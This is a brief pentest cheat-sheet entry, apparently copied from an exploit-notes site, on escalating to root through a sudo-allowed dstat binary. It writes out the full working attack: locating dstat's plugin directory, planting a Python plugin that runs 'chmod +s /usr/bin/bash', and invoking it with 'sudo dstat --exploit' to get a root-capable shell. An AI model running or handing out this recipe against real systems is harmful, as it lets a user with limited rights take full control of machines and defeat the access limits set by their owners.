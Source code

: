 ## Dstat
#dstat #lpe
Taken from https://exploit-notes.hdks.org/exploit/sudo-privilege-escalation/

dstat is a versatile tool for generating system resource statistics.  
It allows users to create a custom plugin and execute by adding option e.g. **`dstat --myplugin`**.

First off, find locate "dstat" directory.

```sh
find / -type d -name dstat 2>/dev/null
```

Assume that the location of dstat is **“/usr/local/share/dstat”**.  
Create a plugin called **"dstat_exploit.py"** under **"/usr/local/share/dstat/"**.

```sh
import os

os.system('chmod +s /usr/bin/bash')
```

dstat recognizes plugins under **"/usr/local/share/dstat/"**.  
Check if the above exploit plugin has been added by executing the following command.

```sh
dstat --list | grep exploit
```

Now execute dstat with **“—exploit”** flag (the flag name is determined by the suffix of the file name e.g. **"dstat_<plugin-name>.py"**).

```sh
sudo /usr/bin/dstat --exploit
```